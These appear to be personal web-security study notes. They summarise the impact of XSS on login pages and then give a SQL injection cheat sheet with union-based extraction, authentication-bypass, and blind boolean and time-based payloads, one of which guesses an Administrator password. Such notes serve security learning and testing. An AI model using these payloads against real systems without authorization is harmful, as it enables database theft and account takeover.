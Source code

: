 	what most you can do by XSS:----
		Cookie theft and session hijacking
		Phishing attacks


XSS on LOGIN page severity and why.

	The severity of a Cross-Site Scripting (XSS) vulnerability on a login page is generally considered high

	Authentication bypass: An XSS vulnerability on a login page can be exploited to bypass authentication mechanisms.

	Credential theft: By injecting malicious scripts into the login page, attackers can capture login credentials entered by users. 

	Privilege escalation: If the XSS vulnerability allows for session manipulation or access to user session cookies, attackers can hijack authenticated sessions.

	Phishing attacks: XSS vulnerabilities on login pages can be exploited to create realistic-looking phishing pages. 

	Impact on user trust: XSS attacks on login pages can significantly impact user trust and confidence in the affected application. Successful exploitation can lead to unauthorized access, data breaches, or account compromise.


=================================
SQLi- 
================================
https://www.acunetix.com/websitesecurity/sql-injection2/#:~:text=SQL%20Injection%20can%20be%20classified,Out%2Dof%2Dband%20SQLi.

SQL injection is a code injection technique that might destroy your database.

    Error based
	 	-  	' OR 1=1

    union based - 
        ' order by 5 --+
        ' UNION ALL SELECT 1,2,3,4 and so on --+ 
        ' UNION ALL SELECT 1,database(),table_name,4 from information_schema.tables --+
        ' UNION ALL SELECT 1,group_concat(column_name),3,4 from information_schema.columns where table_name='?' --+
        ' UNION ALL SELECT 1,group_concat(col1,col2),3,4 from table_name --+

    Auth bypass - 	' or 'x'='xcaca
	Blind Boolean :
		' or 1=1 and substring(database(),1,1)='b'#
	Blind Time :
		' or sleep(5)#,		' or 1=1 and sleep(5)#
		'; IF (1=2) WAITFOR DELAY '0:0:10'--
		'; IF (1=1) WAITFOR DELAY '0:0:10'--
		'; IF (SELECT COUNT(Username) FROM Users WHERE Username = 'Administrator' AND SUBSTRING(Password, 1, 1) > 'm') = 1 WAITFOR DELAY '0:0:{delay}'--
	Sqlite:
		select sql from sqlite_master tbl_name='user'
